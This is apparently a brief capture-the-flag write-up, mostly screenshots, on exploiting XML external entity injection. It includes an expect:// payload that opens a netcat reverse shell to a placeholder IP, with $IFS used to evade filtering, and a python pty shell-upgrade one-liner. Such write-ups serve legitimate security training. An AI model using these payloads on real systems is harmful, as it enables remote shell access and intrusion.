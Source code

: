 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/076d9062-4f17-426b-a613-fc5271b4e2f9)

https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/80a4b9b8-da5f-4806-ae03-135afa50cc43)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2218528f-84d9-4cca-a64b-02d50816efe8)

`expect://nc.traditional$IFS-e$IFS/bin/bash$IFS'IP'$IFS'1234'"`

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/18947995-d2e0-444e-ab48-5c4769458ebc)

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/327254c2-67c2-43b2-9032-082f96227a9b)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bd0e4092-8b60-4b4e-8ecf-3c48f7de4fef)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/232f1a91-680b-406f-a4f7-7f5282bc54c2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/40b016ae-276c-46ac-a83a-18ba7783b63a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3d3b809b-85ba-410f-8a17-57c80e780954)






